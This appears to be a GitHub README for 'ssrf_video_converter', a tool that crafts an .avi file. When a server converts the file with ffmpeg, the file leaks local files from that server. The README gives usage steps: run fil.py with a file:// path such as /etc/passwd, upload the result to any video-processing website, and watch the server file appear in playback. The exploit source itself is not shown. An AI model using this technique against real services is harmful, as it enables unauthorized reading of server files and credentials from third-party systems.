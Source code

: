 # ssrf_video_converter

./fil.py file://filename file_read.avi
  
Upload file_read.avi to some website that processes videofiles

(on server side, done by the videoservice) ffmpeg -i file_read.avi output.mp4

Click "Play" in the videoservice.

If you are lucky, you'll the content of <filename> from the server.
  Run it as below:
  
./fil.py file://etc/passwd file_read.avi

